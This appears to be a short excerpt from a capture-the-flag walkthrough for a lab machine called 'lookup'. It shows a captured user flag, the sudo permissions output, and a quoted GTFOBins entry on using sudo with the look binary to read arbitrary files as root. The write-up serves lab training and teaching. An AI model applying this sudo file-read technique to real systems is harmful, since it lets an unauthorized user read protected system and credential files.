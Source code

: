 ```
```

`cat ./user.txt`:
```
38375fb4dd8baa2b2039ac03d92b820e ←
```

`sudo -l`:
```
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look ←
```

`ls -l /usr/bin/look`:
```
-rwxr-xr-x 1 root root 14728 Mar 30  2020 /usr/bin/look ←
```

<div>
	<img src="./assets/logo_gtfobins.png" alt="GTFOBins Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GTFOBins</strong></span>
</div>

[look](https://gtfobins.github.io/gtfobins/look/)

[**#Sudo**]

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
LFILE=file_to_read
sudo look '' "$LFILE"
```
